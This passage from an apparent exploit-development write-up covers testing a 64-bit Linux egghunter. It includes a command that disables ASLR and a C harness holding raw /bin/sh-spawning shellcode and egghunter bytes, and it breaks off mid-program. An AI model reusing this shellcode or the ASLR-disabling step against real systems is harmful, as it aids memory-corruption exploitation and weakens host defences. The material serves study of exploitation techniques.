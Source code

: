 <figcaption class="figure-caption">Egghunter shellcode</figcaption>

### Testing

During my tests, I noticed that a long period of time was required for the egg hunter to find the egg and execute the real shellcode. This is caused by the usage of 64-bits memory addresses.

In fact, while most of the x86 systems have 32 bits for virtual addresses, x86-64 systems have 48 bits.

<table>
<thead>
<tr>
<th>System</th>
<th>Number of memory pages</th>
</tr>
</thead>
<tbody>
<tr>
<td>x86</td>
<td>2^32 / 0x1000 = 1.048.576</td>
</tr>
<tr>
<td>x86-64</td>
<td>2^48 / 0x1000 = 68.719.476.736</td>
</tr>
</tbody>
</table>

From the table above, we can see that it takes 68.000 more times to scan all the virtual addresses in a x86-64 process.

Time-wise, to find an egg in a 64-bit process I would have to wait more than 10 hours, while it would take some seconds/minutes in 32-bit processes.

For testing purposes, I chose to speed up the process by starting from an address closer to the location of the real shellcode.

To do this, first I had to disable **ASRL **(`Address Space Layout Randomization`) on my Linux host:

```bash
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space

# to enable it again:
# echo 2 | sudo tee /proc/sys/kernel/randomize_va_space
```

<figcaption class="figure-caption">Disabling ASLR on Linux</figcaption>

After that, I wrote a simple C program to test the egghunter shellcode:

```cpp
#include <stdio.h>
#include <string.h>

#define EGG "\x72\x62\x63\x74"

void main(int argc, char* argv[])
{
    /*
    Shellcode for spawning /bin/sh, with the egg prepended
    */
    unsigned char shellcode[] = EGG "\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x48\x89\xe7\x50\x57\x48\x89\xe6\x83\xc0\x3b\x0f\x05";

    unsigned char egghunter[] = "\x31\xff\x48\xf7\xe7\x66\x81\xcf\xff\x0f\x48\xff\xc7\x31\xc0\xb0\x50\x0f\x05\x3c\xf2\x74\xee\x8b\x17\xbe\x73\x62\x63\x74\xff\xce\x39\xf2\x75\xe6\x48\x83\xc7\x04\xff\xd7";
```